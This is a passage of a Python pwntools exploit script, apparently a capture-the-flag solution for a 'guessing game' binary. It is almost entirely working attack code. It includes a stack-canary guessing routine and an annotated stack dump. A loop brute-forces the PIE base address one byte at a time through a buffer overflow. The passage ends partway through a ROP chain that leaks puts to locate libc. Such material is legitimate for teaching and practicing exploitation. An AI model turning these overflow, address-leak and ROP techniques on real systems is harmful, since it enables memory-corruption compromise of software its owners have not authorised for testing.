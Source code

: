 ```python



    # print("GUESSED CANARY: "+str(guessed_canary.hex()))

    return guessed_canary


# PIE LEAK:
# 0x7fffffffe418  00 00 00 00 03 00 00 00  41 41 41 41 41 41 41 41  │........│AAAAAAAA│
# 0x7fffffffe428  41 41 41 41 41 41 41 41  CA NA RY 00 00 00 00 00  │AAAAAAAA│CANARY..│ // padding + canary for memcmp()
# 0x7fffffffe438  43 43 43 43 43 43 43 43  b8 e5 ff ff ff 7f 00 00  │CCCCCCCC│ADDRESS.│ // padding + address
# 0x7fffffffe448  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  │AAAAAAAA|AAAAAAAA│
# 0x7fffffffe458  CA NA RY 00 00 00 00 00  43 43 43 43 43 43 43 43  │CANARY..│CCCCCCCC│
# 0x7fffffffe468  83 54 55 55 55 55 00 00  57 65 6c 63 6f 6d 65 20  │.TUUUU..│Welcome.│
# 0x7fffffffe478  74 6f 20 74 68 65 20 67  75 65 73 73 69 6e 67 20  │to.the.g│uessing.│
# 0x7fffffffe488  67 61 6d 65 21 0a 00 00  70 e5 ff ff ff 7f 00 00  │game!...│p.......│

# get the an address with known offset (main+198) by guessing it byte by byte
def get_pie(io, canary):

    address = b""
    for i in range(6):  # loop through 6 bytes of pie, 1 byte at a time, 7th and 8th byte is \x00
        for b in range(1, 256):  # loop through all possible bytes
            payload = flat(
                b"A"*16,         # will be compared with random_data buffer
                canary,          # needed for the memcmp() to pass
                b"C"*8,          # padding
                address,         # guessed pie
                bytes([b]),      # add single guessed byte
                b"\x00"*(40-16-16-len(address)-1),  # fills rest of user_input buffer with \0x00
                # -16 because of "A"*16, -16 because of canary + "C"*8, -1 because of added byte
                b"A"*16,         # fills random_data buffer with A's
                canary,          
                b"C"*8           # padding
            )

            io.sendafter(b"secret!\n", payload)
            answer = io.recvline().strip().decode()
            # print(answer, address+bytes([b]))

            io.sendafter(b"(y/n)\n", b"y")
            if "win" in answer:
                address+=bytes([b])
                info("guessed "+str(i+1)+" bytes of pie: "+str(address))
                break

    return address

# get the base address of libc by leaking the address of puts
def get_libc_base(io, canary):

    rop = ROP(elf)  # Load ROP chain from binary

    POP_RDI = rop.find_gadget(['pop rdi', 'ret'])[0]  # pop rdi; ret - get gadget address in the binary

    info(f"POP RDI: {hex(POP_RDI)}")

    # leak the address of puts
    payload = flat(
```